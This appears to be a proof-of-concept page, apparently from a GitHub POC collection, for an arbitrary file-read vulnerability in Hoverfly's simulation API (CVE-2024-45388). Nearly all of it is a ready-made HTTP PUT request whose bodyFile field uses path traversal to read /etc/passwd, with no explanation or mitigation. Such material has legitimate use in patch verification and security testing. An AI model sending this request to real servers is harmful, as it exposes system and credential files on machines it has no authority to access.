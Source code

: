 # Hoverfly_simulation_fileread

```
PUT /api/v2/simulation HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
 
{"data":{"pairs":[{"request":{},"response":{"bodyFile": "../../../../../../../etc/passwd","x":"aaa"}} ]},"meta":{"schemaVersion":"v5.3"}}
```

from: https://github.com/wy876/POC/blob/main/Hoverfly/Hoverfly%E7%B3%BB%E7%BB%9F%E6%8E%A5%E5%8F%A3simulation%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0(CVE-2024-45388).md
